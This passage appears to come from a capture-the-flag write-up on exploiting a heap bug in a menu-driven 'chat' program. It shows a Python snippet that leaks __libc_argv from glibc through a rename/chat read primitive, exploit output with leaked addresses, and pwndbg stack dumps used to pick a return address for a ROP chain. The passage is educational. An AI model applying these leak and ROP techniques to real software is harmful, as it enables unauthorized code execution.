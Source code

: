 *   `[anon_7f0948ae5] 0x7f0948ae5ddb` similarly.

    ```
    pwndbg> x/1xg 0x7f0948ae5ddb
    0x7f0948ae5ddb:	0x00000000007ffd14
    ```

Let's go with `__libc_argv` at `0x7f0948a1ba20`. We will use the same
*"rename and chat"* pattern as for `main_arena_ptr` / `main_arena`, to read
the actual pointer on stack. Looking at the earlier output, we had
`glibc_rwdata: 0x7f0948a1a000`. Therefore:

```python
# Get address of __libc_argv
libc_argv_ptr = glibc_rwdata + 0x7f0948a1ba20 - 0x7f0948a1a000
print("__libc_argv_ptr: ", hex(libc_argv_ptr))
rename(pwn.p64(libc_argv_ptr))
libc_argv = pwn.u64(chat(1)+b'\0\0') 
print("__libc_argv: ", hex(libc_argv))
```

With all that, we should have "a" somewhat stable stack pointer in `libc_argv`.


## Finding a return address for a ROP chain

Rerun the exploit, reattach GDB:

```
$ ./exploit.py
heap_base:  0x55a18bb25000
main_arena_ptr 0x55a18bb26940
main_arena:  0x7fdb3de1ac80
glibc_code:  0x7fdb3dc28000
glibc_rodata:  0x7fdb3ddbd000
glibc_rwdata:  0x7fdb3de1a000
__libc_argv_ptr:  0x7fdb3de1ba20
__libc_argv:  0x7ffeab9dacb8

pwndbg> print __libc_argv
$1 = (char **) 0x7ffeab9dacb8
```

We will try to get the `menu_loop()` return to the ROP chain instead of
`main()`. Let's see how
the stack looks inside of it. Set a breakpoint on the `scanf()` inside of
that (`*menu_loop+184`), type `x` to get back to menu and look at the stack
there:

```
pwndbg> break *menu_loop+184
pwndbg> c
# Press '0' to get back to the menu
pwndbg> stack
00:0000│ rsp rsi-7 0x7ffeab9dab60 ◂— 0x78007ffeab9dacb8
01:0008│           0x7ffeab9dab68 ◂— 0xaf04b6992869d700
02:0010│ rbp       0x7ffeab9dab70 —▸ 0x7ffeab9daba0 ◂— 0x1
03:0018│           0x7ffeab9dab78 —▸ 0x55a162efbe5a (main+172) ◂— mov eax, 0
04:0020│           0x7ffeab9dab80 ◂— 0x0
```
